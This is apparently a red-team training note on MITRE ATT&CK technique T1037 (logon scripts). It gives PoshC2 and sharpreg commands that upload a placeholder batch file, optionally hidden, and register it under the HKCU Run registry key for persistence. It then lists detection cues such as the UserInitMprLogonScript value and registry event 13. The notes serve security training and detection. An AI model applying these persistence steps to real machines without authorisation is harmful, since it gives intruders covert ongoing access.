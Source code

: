 # [Logon scripts](https://attack.mitre.org/techniques/T1037/)

## Exploit syntax:
1. Create a file in your posh payloads folder called "evilMorty.bat" and paste the following: 
```
@echo off
start /MIN /DC:\Windows\System32 notepad.exe
```

In Poshc2, run
```sh
upload-file
evilMorty.bat
C:\howDidSheGetThere.bat
```
> *NOTE*: Feel free to make the .bat file hidden

```sh
sharpreg create "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" "UhOh" "C:\howDidSheGetThere.bat"
```
## Detections techniques:
* Investigate file creation in the default windows logon script location in the registry. HKEY_CURRENT_USER\Environment "UserInitMprLogonScript"(checked)
* Event code:
    * 13: Registry value set
